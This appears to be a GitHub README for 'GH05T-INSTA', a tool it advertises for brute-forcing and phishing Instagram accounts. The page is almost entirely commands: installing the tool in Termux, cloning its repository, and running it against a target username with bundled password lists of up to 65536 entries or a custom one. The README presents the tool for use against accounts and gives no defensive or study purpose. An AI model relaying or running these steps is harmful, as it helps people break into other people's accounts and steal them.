 # GH05T-INSTA
Instagram Brute force Attack and Phishing Tool { The Best Choice } GH05T-INSTA 




<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/gh05thunter5.jpg" alt="gh05t-logo">

<i>Package Installation</i>

```
pkg install git
```
```
pkg install python
```
```
pkg install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```


gh05t --user username --pass 1
{ username  :  Enter your instagram account username }
{ 1  :  is your Password List Number < 1 = 1059 > < 2 = 65536 number > < 3 = 65536 name > < 4 = 65536 mix > < 5 = 65536 mix > }

gh05t --user username --passadd Your-Pass
{ Your-Pass  :  Enter Your Password Location and Name also }

gh05t --update




gh05t --error




gh05t developer 



gh05t --passadd

```
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/Gh05t.jpg" alt="guide">
